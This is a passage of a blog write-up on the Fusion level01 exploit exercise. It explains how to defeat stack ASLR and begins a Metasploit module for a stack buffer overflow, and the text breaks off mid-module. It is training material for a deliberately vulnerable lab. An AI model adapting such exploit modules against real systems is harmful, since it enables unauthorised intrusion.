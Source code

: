 ```yaml
---
layout: post
title: Exploit Exercises - Fusion level01 write up
excerpt: "Develop a Metasploit module for a stack overflow bug with ASLR enabled"
tags:
  - Exploit Development
permalink: "fusion/level01"

---
```


This post details a walkthrough on how to create a Metasploit module for level01 of the Fusion exploit exercise at [https://exploit-exercises.com](https://exploit-exercises.com). This level uses the same code with the same bug as level00. For intial setup and bug analysis see the [previous walkthrough]({{site.baseurl}}/fusion-level00-walkthrough). This level adds in system ASLR for the stack, heap, etc.

## Inspecting the crash
---
The exploit steps in level00 were:

* Control the value of eip
* Find the payload in memory
* Point eip at the payload

The third step above is no longer reliable because the payload is stored on the stack and each time the program executes the location of the stack changes. The difficultly is finding a way to reliably locate the payload. Below is a module similar to the proof of concept developed for level00 that will cause the pogram to crash. The time of the crash is the ideal time to inspect memory because this state will be consistent each time, though exact addresses will change.

_Note: If the module below is confusing please browse the level00 walkthrough_

{% highlight bash %}
class Metasploit3 < Msf::Exploit::Remote

  include Msf::Exploit::Remote::Tcp

  def initialize(info = {})
    super(update_info(info,
      'Name'           => 'Fusion level00 remote stack buffer overflow',
      'Description'    => %q{
                           This module exploits a stack buffer overflow in level00 of the
                           fusion exploit exercises.
                           },
      'Author'         => [ 'Philip OKeefe' ],
      'Version'        => '1',
      'DefaultOptions' =>
              {
                      'EXITFUNC' => 'process',
              },
      'Payload'        =>
              {
                      'Space'    => 788,
                      'BadChars' => "\x00",
                      'StackAdjustment' => -4000,
              },
      'Platform'       => 'linux',

      'Targets'        =>
              [
                      ['Linux', {} ],
              ],
      'DefaultTarget' => 0,

      'Privileged'     => false